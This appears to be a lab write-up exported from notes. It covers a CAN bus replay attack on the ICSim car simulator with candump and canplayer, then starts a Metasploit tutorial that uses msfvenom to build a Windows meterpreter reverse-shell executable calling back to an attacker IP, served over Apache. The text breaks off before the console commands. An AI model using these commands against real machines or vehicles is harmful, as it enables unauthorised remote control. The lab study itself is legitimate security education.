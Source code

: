 cd Desktop/ICSim
./controls vcan0

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7cbdacf1-11c0-4d33-8e30-aebffc4f5e35/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7cbdacf1-11c0-4d33-8e30-aebffc4f5e35/Untitled.png)

You can close, accelerate, open door everything.

**Car replay attack**

**While running the ICSim :**

- Start the candump packet capture tool
  - candump -l vcan0
  - Now you can mess up with the controls (accelerate, door open, close)

**Now switch back to the candump terminal window and stop the capture with CTRL-C**

- ls
- [candump-file].log

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/281093ac-54cd-47aa-81a8-d0309f4a2812/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c281093ac-54cd-47aa-81a8-d0309f4a2812/Untitled.png)

**And now you can use this attack with :**

- canplayer -I [candump-file].log vcan0

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fe3bb8e2-3609-4fe4-b572-53e66c56ce8c/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.cfe3bb8e2-3609-4fe4-b572-53e66c56ce8c/Untitled.png)

- [https://www.swisstransfer.com/d/cc1dccf6-9eb0-4704-b6a2-f41b4927070b](https://www.swisstransfer.com/d/cc1dccf6-9eb0-4704-b6a2-f41b4927070b) (proof of concept)

**Third attack : Getting root in a windows 7 machine with metasploit**

1. **First launch metasploit**

- **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.3 -f exe -o /root/Desktop/Unityx64**
  - **-p is for the payload**
  - **LHOST is the ip address of the attacker machine (Kali in this case)**
  - **-f is for the file extension (exe)**
  - **-o is for the output where the file is going to be created with the name of course.**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/be44e10d-2569-4d1d-a1ac-280865385dc4/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.cbe44e10d-2569-4d1d-a1ac-280865385dc4/Untitled.png)

- **Now copy the payload on the var/www/ repertory**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e95b572e-e39e-45e8-977a-e2f1df5705df/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.ce95b572e-e39e-45e8-977a-e2f1df5705df/Untitled.png)

- Then add privilège with the following command :

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/637de89c-21d5-4caa-9056-6266a8c620c2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c637de89c-21d5-4caa-9056-6266a8c620c2/Untitled.png)

- Finally you can start the apache service with :

**Now you can go to your windows 7 machine and type the ip of the attacker machine in your brower**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6f9efdf0-e6bd-4e6a-b250-f72eba8e5c43/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.c6f9efdf0-e6bd-4e6a-b250-f72eba8e5c43/Untitled.png)

**Now go back to the msf console and type the following commands :**
